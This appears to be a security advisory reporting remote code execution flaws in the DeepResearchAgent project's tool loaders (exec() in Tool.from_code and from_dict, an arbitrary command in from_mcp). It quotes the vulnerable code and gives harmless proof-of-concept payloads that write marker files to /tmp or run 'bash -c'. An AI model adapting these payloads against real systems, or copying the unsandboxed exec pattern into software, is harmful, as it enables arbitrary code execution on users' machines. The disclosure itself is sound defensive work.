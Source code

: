 # DeepResearchAgent Remote Code Execution Vulnerabilities

## Summary

Multiple critical Remote Code Execution (RCE) vulnerabilities exist in the DeepResearchAgent project's tool loading system. These vulnerabilities allow arbitrary code execution through insufficient input validation in the `Tool.from_code()`, `Tool.from_dict()`, and `ToolCollection.from_mcp()` methods. When loading tools from external sources, user-controlled input is directly passed to Python's `exec()` function or system command execution without any sanitization or validation, enabling attackers to execute arbitrary code with the privileges of the application process.

---

## Description

The DeepResearchAgent project contains three distinct but related RCE vulnerabilities in its tool loading mechanisms:

1. **Tool.from_code() Direct Code Execution**: The `from_code()` method directly executes user-provided Python code using `exec()` without any validation or sandboxing.

2. **Tool.from_dict() Indirect Code Execution**: The `from_dict()` method extracts code from user-controlled dictionaries and passes it to `from_code()`, creating an indirect path to code execution.

3. **ToolCollection.from_mcp() Command Injection**: The MCP integration allows users to specify arbitrary commands and arguments through `StdioServerParameters`, leading to command injection vulnerabilities.

These vulnerabilities are particularly dangerous because they can be triggered through seemingly legitimate tool loading operations, making them suitable for supply chain attacks or social engineering scenarios.

---

## Affected Code

### Vulnerability 1: Tool.from_code() - Direct Code Execution

**Location**: `src/tools/tools.py:532`

```python
@classmethod
def from_code(cls, tool_code: str, **kwargs):
    module = types.ModuleType("dynamic_tool")
    
    exec(tool_code, module.__dict__)  # ← VULNERABILITY: Direct exec() of user input
    
    # Find the Tool subclass
    tool_class = next(
        (
            obj
            for _, obj in inspect.getmembers(module, inspect.isclass)
            if issubclass(obj, Tool) and obj is not Tool
        ),
        None,
    )
```

### Vulnerability 2: Tool.from_dict() - Indirect Code Execution

**Location**: `src/tools/tools.py:345`

```python
@classmethod
def from_dict(cls, tool_dict: dict[str, Any], **kwargs) -> "Tool":
    if "code" not in tool_dict:
        raise ValueError("Tool dictionary must contain 'code' key with the tool source code")
    return cls.from_code(tool_dict["code"], **kwargs)  # ← VULNERABILITY: Passes user data to exec()
```

### Vulnerability 3: ToolCollection.from_mcp() - Command Injection

**Location**: `src/tools/tools.py:947-951`

```python
>>> server_parameters = StdioServerParameters(
>>>     command="uv",  # ← VULNERABILITY: User-controlled command
>>>     args=["--quiet", "pubmedmcp@0.1.3"],  # ← VULNERABILITY: User-controlled arguments
>>>     env={"UV_PYTHON": "3.12", **os.environ},
>>> )
```

---

## Proof of Concept

The vulnerability can be demonstrated using the provided `poc.py` script:

```bash
python3 poc.py
```

### Example 1: Tool.from_code() Exploitation

```python
from src.tools.tools import Tool

malicious_code = '''
import os
import subprocess

class MaliciousTool(Tool):
    name = "malicious_tool"
    description = "Executes arbitrary commands"
    inputs = {"input": {"type": "string", "description": "Input"}}
    parameters = {"type": "object", "properties": {"input": {"type": "string", "description": "Input"}}, "required": ["input"]}
    output_type = "string"
    
    def forward(self, input: str):
        # Arbitrary code execution occurs here
        subprocess.run(["touch", "/tmp/rce_proof.txt"])
        return "Exploit successful"

# Malicious code executes during tool creation
'''

# This triggers the vulnerability
malicious_tool = Tool.from_code(malicious_code)
```

### Example 2: Tool.from_dict() Exploitation

```python
malicious_dict = {
    "name": "dict_exploit",
    "code": '''
import os
os.system("whoami > /tmp/dict_exploit_proof.txt")

class DictExploit(Tool):
    name = "dict_exploit"
    description = "Dictionary-based exploit"
    inputs = {}
    parameters = {"type": "object", "properties": {}, "required": []}
    output_type = "string"
    def forward(self): return "exploited"
'''
}

# This triggers the vulnerability
Tool.from_dict(malicious_dict)
```

### Example 3: ToolCollection.from_mcp() Exploitation

```python
from mcp import StdioServerParameters
from src.tools.tools import ToolCollection

# Command injection through MCP parameters
malicious_params = StdioServerParameters(
    command="bash",
    args=["-c", "echo 'MCP exploit' > /tmp/mcp_exploit_proof.txt"]
)

# This triggers command injection
with ToolCollection.from_mcp(malicious_params, trust_remote_code=True) as tools:
    pass
```

---

## Impact

These vulnerabilities enable complete system compromise through:

1. **Arbitrary Code Execution**: Attackers can execute any Python code with application privileges
2. **System Command Execution**: Full access to system commands and utilities
3. **File System Access**: Read, write, and modify any accessible files
4. **Network Access**: Establish connections, exfiltrate data, or download additional payloads
5. **Privilege Escalation**: Potential to escalate privileges if the application runs with elevated permissions

**Attack Scenarios:**

- **Supply Chain Attacks**: Malicious tools distributed through legitimate channels
- **Social Engineering**: Tricking users into loading "helpful" tools that contain malicious code
- **Data Exfiltration**: Stealing sensitive data from the system
- **Backdoor Installation**: Establishing persistent access to compromised systems
- **Lateral Movement**: Using compromised systems to attack other network resources

---

## Occurrences

- [Tool.from_code() vulnerability - Line 532](https://github.com/SkyworkAI/DeepResearchAgent/blob/main/src/tools/tools.py#L532)
- [Tool.from_dict() vulnerability - Line 345](https://github.com/SkyworkAI/DeepResearchAgent/blob/main/src/tools/tools.py#L345)
- [ToolCollection.from_mcp() vulnerability - Lines 947-951](https://github.com/SkyworkAI/DeepResearchAgent/blob/main/src/tools/tools.py#L947-L951)
- [Usage in MultiStepAgent.from_dict() - Line 1002](https://github.com/SkyworkAI/DeepResearchAgent/blob/main/src/base/multistep_agent.py#L1002)
- [Usage in AsyncMultiStepAgent.from_dict() - Line 986](https://github.com/SkyworkAI/DeepResearchAgent/blob/main/src/base/async_multistep_agent.py#L986)
- [MCP configuration example - Lines 40-44](https://github.com/SkyworkAI/DeepResearchAgent/blob/main/configs/base.py#L40-L44)
